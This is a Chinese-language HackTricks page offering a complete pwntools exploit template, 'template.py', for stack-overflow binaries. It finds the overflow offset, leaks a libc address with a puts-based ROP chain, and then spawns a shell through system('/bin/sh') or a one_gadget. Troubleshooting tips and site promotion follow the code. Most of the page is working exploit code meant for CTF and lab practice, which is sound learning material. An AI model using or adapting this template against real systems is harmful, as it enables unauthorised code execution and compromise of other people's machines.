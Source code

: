 # 泄露libc - 模板

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% code title="template.py" %}
```python
from pwn import ELF, process, ROP, remote, ssh, gdb, cyclic, cyclic_find, log, p64, u64  # Import pwntools


###################
### CONNECTION ####
###################
LOCAL = False
REMOTETTCP = True
REMOTESSH = False
GDB = False
USE_ONE_GADGET = False

LOCAL_BIN = "./vuln"
REMOTE_BIN = "~/vuln" #For ssh
LIBC = "" #ELF("/lib/x86_64-linux-gnu/libc.so.6") #Set library path when know it
ENV = {"LD_PRELOAD": LIBC} if LIBC else {}

if LOCAL:
P = process(LOCAL_BIN, env=ENV) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTETTCP:
P = remote('10.10.10.10',1339) # start the vuln binary
ELF_LOADED = ELF(LOCAL_BIN)# Extract data from binary
ROP_LOADED = ROP(ELF_LOADED)# Find ROP gadgets

elif REMOTESSH:
ssh_shell = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0', port=2220)
p = ssh_shell.process(REMOTE_BIN) # start the vuln binary
elf = ELF(LOCAL_BIN)# Extract data from binary
rop = ROP(elf)# Find ROP gadgets

if GDB and not REMOTETTCP and not REMOTESSH:
# attach gdb and continue
# You can set breakpoints, for example "break *main"
gdb.attach(P.pid, "b *main")



#########################
#### OFFSET FINDER ######
#########################

OFFSET = b"" #b"A"*264
if OFFSET == b"":
gdb.attach(P.pid, "c") #Attach and continue
payload = cyclic(264)
payload += b"AAAAAAAA"
print(P.clean())
P.sendline(payload)
#x/wx $rsp -- Search for bytes that crashed the application
#print(cyclic_find(0x63616171)) # Find the offset of those bytes
P.interactive()
exit()



####################
### Find Gadgets ###
####################
try:
libc_func = "puts"
PUTS_PLT = ELF_LOADED.plt['puts'] #PUTS_PLT = ELF_LOADED.symbols["puts"] # This is also valid to call puts
except:
libc_func = "printf"
PUTS_PLT = ELF_LOADED.plt['printf']

MAIN_PLT = ELF_LOADED.symbols['main']
POP_RDI = (ROP_LOADED.find_gadget(['pop rdi', 'ret']))[0] #Same as ROPgadget --binary vuln | grep "pop rdi"
RET = (ROP_LOADED.find_gadget(['ret']))[0]

log.info("Main start: " + hex(MAIN_PLT))
log.info("Puts plt: " + hex(PUTS_PLT))
log.info("pop rdi; ret  gadget: " + hex(POP_RDI))
log.info("ret gadget: " + hex(RET))


########################
### Find LIBC offset ###
########################

def generate_payload_aligned(rop):
payload1 = OFFSET + rop
if (len(payload1) % 16) == 0:
return payload1

else:
payload2 = OFFSET + p64(RET) + rop
if (len(payload2) % 16) == 0:
log.info("Payload aligned successfully")
return payload2
else:
log.warning(f"I couldn't align the payload! Len: {len(payload1)}")
return payload1


def get_addr(libc_func):
FUNC_GOT = ELF_LOADED.got[libc_func]
log.info(libc_func + " GOT @ " + hex(FUNC_GOT))
# Create rop chain
rop1 = p64(POP_RDI) + p64(FUNC_GOT) + p64(PUTS_PLT) + p64(MAIN_PLT)
rop1 = generate_payload_aligned(rop1)

# Send our rop-chain payload
#P.sendlineafter("dah?", rop1) #Use this to send the payload when something is received
print(P.clean()) # clean socket buffer (read all and print)
P.sendline(rop1)

# If binary is echoing back the payload, remove that message
recieved = P.recvline().strip()
if OFFSET[:30] in recieved:
recieved = P.recvline().strip()

# Parse leaked address
log.info(f"Len rop1: {len(rop1)}")
leak = u64(recieved.ljust(8, b"\x00"))
log.info(f"Leaked LIBC address,  {libc_func}: {hex(leak)}")

# Set lib base address
if LIBC:
LIBC.address = leak - LIBC.symbols[libc_func] #Save LIBC base
print("If LIBC base doesn't end end 00, you might be using an icorrect libc library")
log.info("LIBC base @ %s" % hex(LIBC.address))

# If not LIBC yet, stop here
else:
print("TO CONTINUE) Find the LIBC library and continue with the exploit... (https://LIBC.blukat.me/)")
P.interactive()

return hex(leak)

get_addr(libc_func) #Search for puts address in memmory to obtain LIBC base



#############################
#### FINAL EXPLOITATION #####
#############################

## Via One_gadget (https://github.com/david942j/one_gadget)
# gem install one_gadget
def get_one_gadgets(libc):
import string, subprocess
args = ["one_gadget", "-r"]
if len(libc) == 40 and all(x in string.hexdigits for x in libc.hex()):
args += ["-b", libc.hex()]
else:
args += [libc]
try:
one_gadgets = [int(offset) for offset in subprocess.check_output(args).decode('ascii').strip().split()]
except:
print("One_gadget isn't installed")
one_gadgets = []
return

rop2 = b""
if USE_ONE_GADGET:
one_gadgets = get_one_gadgets(LIBC)
if one_gadgets:
rop2 = p64(one_gadgets[0]) + "\x00"*100 #Usually this will fullfit the constrains

## Normal/Long exploitation
if not rop2:
BINSH = next(LIBC.search(b"/bin/sh")) #Verify with find /bin/sh
SYSTEM = LIBC.sym["system"]
EXIT = LIBC.sym["exit"]

log.info("POP_RDI %s " % hex(POP_RDI))
log.info("bin/sh %s " % hex(BINSH))
log.info("system %s " % hex(SYSTEM))
log.info("exit %s " % hex(EXIT))

rop2 = p64(POP_RDI) + p64(BINSH) + p64(SYSTEM) #p64(EXIT)
rop2 = generate_payload_aligned(rop2)


print(P.clean())
P.sendline(rop2)

P.interactive() #Interact with your shell :)
```
## 常见问题

### 未找到 MAIN_PLT = elf.symbols\['main']

如果找不到 "main" 符号（可能是因为它是一个被剥离的二进制文件）。那么你可以找到主代码的位置：
```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
并手动设置地址：
```python
MAIN_PLT = 0x401080
```
### Puts未找到

如果二进制文件没有使用Puts，您应该**检查是否正在使用**

### `sh: 1: %s%s%s%s%s%s%s%s: not found`

如果在创建**所有**利用后发现此**错误**：`sh: 1: %s%s%s%s%s%s%s%s: not found`

尝试**从"/bin/sh"的地址中减去64字节**：
```python
BINSH = next(libc.search("/bin/sh")) - 64
```
<figure><img src="/.gitbook/assets/WebSec_1500x400_10fps_21sn_lightoptimized_v2.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}


<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS Red Team Expert）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想在HackTricks中看到您的**公司广告**或**下载PDF版本的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)收藏品[**The PEASS Family**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在**Twitter**上关注我们 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
